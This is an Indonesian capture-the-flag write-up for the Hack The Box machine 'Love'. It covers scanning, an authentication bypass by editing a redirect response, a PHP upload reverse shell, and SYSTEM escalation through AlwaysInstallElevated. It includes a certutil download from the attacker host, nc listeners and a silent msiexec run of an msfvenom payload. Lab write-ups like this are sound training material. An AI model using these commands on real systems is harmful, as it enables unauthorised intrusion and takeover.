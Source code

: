 # HTB - Love

![Alt text](asset/banner.png)

## Information Gathering

Seperti biasa, Hal pertama yang harus saya lakukan adalah mengumpulkan sebanyak mungkin informasi mengenai server yang akan kita serang. pada tahap ini saya ingin mencari tahu port/service dan OS apa yang dijalankan pada server tersebut.
langsung saja saya menggunakan masscan untuk melihat port apa saja yang terbuka

> masscan --rate=500 -e tun0 -p1-65535 10.10.10.239
> ![Alt text](asset/masscan.png)

Setelah ditemukan daftar port yang terbuka, lalu saya menggunakan nmap untuk mengetahui service apa yang dijalankan pada port tersebut

> nmap -p 49665,49668,5040,139,3306,5986,5985,135,7680,445,49667,47001,49669,49666,443,49664,5000,49670,80 -A 10.10.10.239

![Alt text](asset/nmap1.png)
![Alt text](asset/nmap2.png)

Pada hasil nmap tersebut diketahui beberapa service yang dijalankan pada server tersebut, dan juga diketahui bahwa hostname nya adalah love.htb maka hostname tersebut perlu ditambahkan pada file hosts yang terletak di /etc/hosts.

![Alt text](asset/hostsfile.png)

jika sudah lanjut ketahap enumerasi

## Enumeration

dengan diketahui nya service apa saja yang berjalan, maka saya akan mulai melakukan enumerasi dari port smb lalu ke http

### Port 445 :smb

pada port ini saya mencoba melakukan enumerasi menggunakan smbclient untuk mengetahui share apa saja yang dapat diakses dan nmap untuk mengecek apakah smb nya menggunakan versi yang vulnerable
![Alt text](asset/smbenum.png)

pada port tersebut tidak ada informasi yang menarik, maka saya melanjutkan enumerasi ke port http yang dimulai dari port 80

### Port 80 :http

ketika mengakses port 80 dari browser, halaman yang pertama kali ditampilkan adalah halaman login
![Alt text](asset/80page.png)
saya tidak mengetahui mengenai username dan password yang digunakan. saya telah mencoba menggeunakan metode bruteforce dan sql / nosql injection, tetapi tidak ada yang berhasil, lalu mencoba mencari directory atau file apa saja yang ada pada website tersebut menggunakan ffuf

> ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://love.htb/FUZZ -e .html,.php,.txt -recursion -recursion-depth 1 -o port80.html -of html -rate 2000 -fs 4388 -fc 403
> ![Alt text](asset/ffufresult.png)
> pada hasil tersebut ditemukan sesuatu yang menarik, pada directory admin ditemukan halaman dengan panjang yang berbeda-beda dan status code nya adalah 302, maka saya mencoba mengakses halaman tersebut dan melakukan intercept response nya menggunakan burpsuite
> ![Alt text](asset/responseburp.png)
> dapat dilihat bahwa ketika saya tidak terautentikasi dan mengakses page yang berada pada directory admin maka saya akan di redirect tetapi pada response tersebut server telah memuat isi halaman page pada directory tersebut, maka saya mencoba mengganti response code nya dari 302 Found menjad 200 OK. hasil nya saya berhasil masuk kehalaman dashboard
> ![Alt text](asset/dashboard.png)

setelah melakukan eksplorasi pada website tersebut, ditemukan suatu fitur untuk menambah kandidat, pada fitur tersebut terdapat field untuk melakukan upload foto

![Alt text](asset/uploadfileform.png)

disini saya mencoba untuk upload file php yang berisi function phpinfo() untuk mengecek apakah vulnerable terhadap arbitary file upload.
walaupun terjadi error dikarenakan saya tidak terautentikasi dengan benar tetapi fle php tersebut berhasil di upload.
![Alt text](asset/erroradmin.png)

file php tersebut dapat diakses pada directory /images/info.php
![Alt text](asset/phpinfp.png)

## Foothold!!

dengan ada nya kerentanan tersebut saya dapat melakukan reverse shell via php file upload, saya menggunakan payload php milik ivan-sincek yang dapat di akses pada url berikut

> https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

![](./asset/traversalid_rsa.png)

yang perlu dilakukan pada payload tersebut adalah mengganti ip sesuai dengan ip vpn milik kita
![Alt text](asset/changeip.png)

jika suda setup nc listener pada terminal lokal kalian

> nc -lvnp 7777

lalu ulangi langkah yang sama saat melakukan upload phpinfo

![Alt text](asset/compromise.png)

dan berhasil mendapatkan shell level user

## Privilege Escalation 💫

untuk melakkan privilege escalation pada windows biasanya saya akan menggunakan tool yang bernama powerup, powerup dapat diunduh pada url berikut

> https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

jika tool tersebut sudah didownload, maka saya perlu mentransfer file tersebut ke server yang akan di attack. berikut merupakan step nya:

<ol>
<li>nyalakan http server pada komputer lokal</li>

![Alt text](asset/httpserver.png)

<li>jalankan command berikut pada server victim</li>

> certutil -urlcache -f http://10.10.14.10/powerup.ps1 powerup.ps1

![Alt text](asset/transfersuccess.png)

</ol>

setelah tool berhasil di transfer, jalankan tool tersebut

![Alt text](asset/runpowerup.png)

ditemukan bahwa server berpotensi dilakukan privile escalation dengan metode 'allways install elevated' yang merupakan windows policy yang memungkinkan user unprivilege untuk menginstall software menggunakan file msi dengan privilege system.

![Alt text](asset/powerupresult.png)

untuk memastikan nya saya coba menjalankan command berikut

> HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
> HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

![Alt text](asset/validateallwaysinstallprivilege.png)

ternyata terbukti vulnerable, maka yang selanjut nya yang saya lakukan adalah membuat payload reverse shell menggunakan msfvenom

![Alt text](asset/msfprivesc.png)

lalu transfer payload tersebbut ke server victim dengan metode yang sama seperti mentrasfer tool powerup.ps1.

jika sudah siapkan nc listener

> nc -lvnp 6666

lalu jalankan file msi tersebut dengan cara

> msiexec /quiet /qn /i privesc.msi

maka kita berhasil mendapatkan shell dengan privilege nt authority\system
![Alt text](asset/gotroot.png)

![Alt text](asset/end.png)
